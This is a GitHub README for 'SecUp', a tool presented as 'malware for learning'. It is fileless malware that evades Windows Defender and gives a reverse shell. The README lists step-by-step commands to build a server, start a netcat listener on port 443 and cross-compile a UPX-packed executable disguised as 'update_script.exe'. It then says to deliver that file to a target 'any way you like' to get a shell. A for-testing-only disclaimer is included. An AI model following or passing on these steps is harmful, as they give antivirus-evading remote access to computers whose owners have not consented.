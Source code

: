 # SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup and Execution<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build **SecUp.go**<br>
`go build SecUp.go`
3. Run **SecUp <LHOST>**<br>
`./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Open another terminal, and compile EXE<br>
`GOOS=windows go build -ldflags "-s -w" -trimpath update_script.go`<br>
`upx -9 update_script.exe`
6. Back at the SecUp terminal<br>
`Press ENTER to continue...`
7. Upload and execute `update_script.exe` to target any way you like<br>
8. Shellz! :)
<P></P>
<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>






https://github.com/daniellowrie/update_script/assets/19762230/a83d13e4-108f-4406-b307-bf18704d4278


